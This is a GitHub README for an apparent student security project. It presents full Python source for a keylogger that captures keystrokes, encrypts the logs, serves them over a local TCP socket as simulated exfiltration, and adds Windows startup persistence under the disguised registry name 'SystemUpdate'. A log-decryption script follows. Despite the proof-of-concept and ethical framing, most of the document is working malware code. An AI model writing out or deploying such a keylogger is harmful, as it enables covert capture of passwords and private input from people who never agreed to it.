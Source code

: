 # Elevate-Labs-Final-Project-Submission---Keylogger

**3. Keylogger with Encrypted Data Exfiltration**       
**Objective:** Build a proof-of-concept keylogger that encrypts logs and simulates exfiltration.    

**Tools:** Python, pynput, cryptography, base64     
**Mini Guide:**
a. Capture keystrokes using pynput.     
b. Encrypt data using cryptography.fernet.    
c. Store logs locally with timestamp.       
d. Simulate sending to a remote server (localhost).    
e. Add startup persistence and kill switch.    

![image](https://github.com/user-attachments/assets/9eddcf20-65db-4d5b-a457-fb6a1ee65073)

![image](https://github.com/user-attachments/assets/1787008b-f066-41a7-821b-d97105ae4197)

![image](https://github.com/user-attachments/assets/60fe28d4-6bbe-436a-baa3-fa645d883e95)


**Deliverables: Encrypted Keylogger PoC with Ethical Constraints and Logs**

### 1. **Main Python Script**

**Filename:** `keylogger.py`     
**Contains:**

* Fernet key generation and loading
* Keystroke capture using `pynput`
* AES encryption of logs
* Log writing with timestamps
* Localhost TCP exfiltration using sockets
* Kill switch (`q!exit`)
* Windows startup persistence via registry

```python
import os
import socket
import threading
import base64
from pynput import keyboard
from cryptography.fernet import Fernet
from datetime import datetime
import platform

# CONFIGURATION 
KEY_FILE = "key.key"
LOG_FILE = "encrypted_log.txt"
KILL_SWITCH = "q!exit"
log = ""

# Generate or Load Encryption Key
def generate_key():
    key = Fernet.generate_key()
    with open(KEY_FILE, "wb") as f:
        f.write(key)

def load_key():
    if not os.path.exists(KEY_FILE):
        generate_key()
    with open(KEY_FILE, "rb") as f:
        return f.read()

key = load_key()
fernet = Fernet(key)

# Encrypt and Write Logs
def encrypt_log(data):
    return fernet.encrypt(data.encode())

def write_log(encrypted_data):
    with open(LOG_FILE, "ab") as f:
        f.write(encrypted_data + b"\n")

# Capturing Keystrokes    
def on_press(key):
    global log
    try:
        k = key.char
    except AttributeError:
        k = f"[{key}]"
    
    log += k

    if KILL_SWITCH in log:
        print("[*] Kill switch triggered. Stopping keylogger.")
        return False

    if len(log) >= 10:
        timestamp = datetime.now().strftime("%Y-%m-%d %H:%M:%S")
        data = f"[{timestamp}] {log}"
        encrypted = encrypt_log(data)
        write_log(encrypted)
        log = ""

# Simulate Exfiltration Server 
def simulate_exfiltration():
    def server():
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
            s.bind(("localhost", 4444))
            s.listen(1)
            print("[*] Exfiltration server running on localhost:4444")

            conn, addr = s.accept()
            print(f"[+] Connected from {addr}")

            with open(LOG_FILE, "rb") as f:
                for line in f:
                    try:
                        conn.sendall(line)
                    except (ConnectionResetError, ConnectionAbortedError) as ce:
                        print(f"[!] Connection closed by client: {ce}")
                        break
                    except Exception as e:
                        print(f"[!] Unexpected error: {e}")
                        break

            conn.close()
            s.close()

        except Exception as e:
            print(f"[!] Server error: {e}")

    threading.Thread(target=server, daemon=True).start()

# Windows Startup (Persistence)    
def add_startup():
    if platform.system().lower() == "windows":
        try:
            import winreg as reg
            file_path = os.path.realpath(__file__)
            key = reg.HKEY_CURRENT_USER
            key_value = r"Software\Microsoft\Windows\CurrentVersion\Run"
            open_key = reg.OpenKey(key, key_value, 0, reg.KEY_ALL_ACCESS)
            reg.SetValueEx(open_key, "SystemUpdate", 0, reg.REG_SZ, file_path)
            reg.CloseKey(open_key)
            print("[*] Persistence added to startup.")
        except Exception as e:
            print(f"[!] Persistence error: {e}")

# Starting Keylogger     
def start_keylogger():
    add_startup()
    simulate_exfiltration()
    with keyboard.Listener(on_press=on_press) as listener:
        listener.join()

if __name__ == "__main__":
    print("[*] Starting Keylogger...")
    start_keylogger()

```

### 2. **Generated Key File**

**Filename:** `key.key`    
**Purpose:** Stores the Fernet symmetric encryption key.

### 3. **Encrypted Log File**

**Filename:** `encrypted_log.txt`    
**Contains:** 
Encrypted, timestamped keystroke entries.    

![image](https://github.com/user-attachments/assets/62caff5a-ddcd-4717-8e44-b33aa052944d)    
These are encrypted keystroke logs, sent from our keylogger to the local server (localhost:4444).


### 4. **Decryption Script (optional)**

**Filename:** `decrypt_logs.py`    
**What it does:** Reads `key.key` and `encrypted_log.txt`, decrypts entries, and displays readable logs.

```python
from cryptography.fernet import Fernet

with open("key.key", "rb") as key_file:
    key = key_file.read()

fernet = Fernet(key)

with open("encrypted_log.txt", "rb") as log_file:
    for line in log_file:
        try:
            decrypted = fernet.decrypt(line.strip()).decode()
            print(decrypted)
        except Exception as e:
            print(f"Failed to decrypt: {e}")
```


